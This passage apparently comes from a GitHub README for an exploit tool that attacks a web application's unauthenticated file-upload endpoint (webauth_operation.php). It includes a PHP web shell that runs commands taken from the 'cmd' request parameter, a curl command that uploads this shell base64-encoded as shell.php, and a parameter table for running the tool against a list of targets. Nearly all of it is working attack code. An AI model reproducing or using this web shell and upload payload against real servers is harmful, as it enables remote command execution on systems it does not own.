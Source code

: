 `<?php if(isset($_REQUEST[cmd])){ echo "<pre>"; $cmd = ($_REQUEST[cmd]); system($cmd); echo "</pre>"; die; }?>`

```
$ curl http://target.tld/webauth_operation.php -d 'rs=do_upload&rsargs[]=[{"fileName": "shell.php", "fileData": ",PD9waHAgaWYoaXNzZXQoJF9SRVFVRVNUW2NtZF0pKXsgZWNobyAiPHByZT4iOyAkY21kID0gKCRfUkVRVUVTVFtjbWRdKTsgc3lzdGVtKCRjbWQpOyBlY2hvICI8L3ByZT4iOyBkaWU7IH0/Pgo=
", "csize": 110}]'
```

## Parameters 🧰 

Parameter | Description | Type
------------ | ------------- | -------------
--file / -f | Input targets file | File
-o | Output file | File

## Contact Me 📇

[LinkedIn - Milan Jovic](https://www.linkedin.com/in/milan-jovic-sec/)


